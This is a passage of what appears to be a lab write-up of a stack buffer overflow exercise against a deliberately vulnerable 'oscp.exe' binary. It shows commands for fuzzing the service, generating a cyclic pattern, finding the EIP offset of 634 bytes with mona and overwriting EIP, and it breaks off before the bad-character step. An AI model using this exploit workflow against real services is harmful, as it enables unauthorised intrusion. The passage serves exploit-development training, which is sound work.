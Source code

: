 Let's define a `targ3t` variable now, to make this easier:

```
targ3t=10.10.5.252
```

Now we need to basically restart what we were doing with `OVERFLOW1`. So let's start Immunity Debugger as administrator and open and run `oscp.exe` binary in it. Once that's done, from the host machine let's check if it's working:

```
nc $targ3t 1337
HELP
OVERFLOW2 test
OVERFLOW2 COMPLETE
```

Okay, let's use our upgraded fuzzer now, much the same way as we used it with `OVERFLOW1`:

```
python3 fuzzer.py --ip $targ3t --prefix 2
```

This fuzzer `... crashed at 700 bytes`, so let's replicate what we did the last time - generate a cyclic pattern of a length `700 + 400`. Only this time we will save it as `payload.txt` to make it work with our upgraded `exploit.py` script:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1100 > payload.txt
```

And after that we go to Immunity Debugger, re-open and re-run `oscp.exe` binary and send the following command:

```
python3 exploit.py --ip $targ3t --prefix 2 --payload payload.txt
```

Now we can see that EIP register got overwritten, we need to use `mona` to check where the offset occured:

```
!mona findmsp -distance 1100
```

The output for EIP is:

```
    EIP contains normal pattern : 0x76413176 (offset 634)
```

So now we know it's 634 bytes. To overwrite the EIP register reliably now, let's set the `retn` variable to `BBBB` and rerun everything with an empty payload:

```
python3 exploit.py --ip $targ3t --prefix 2 --offset 634 --retn BBBB --payload /dev/null
```

EIP was successfully overwritten with `BBBB` in hexadecimal: `42424242`

Now let's find the bad characters.
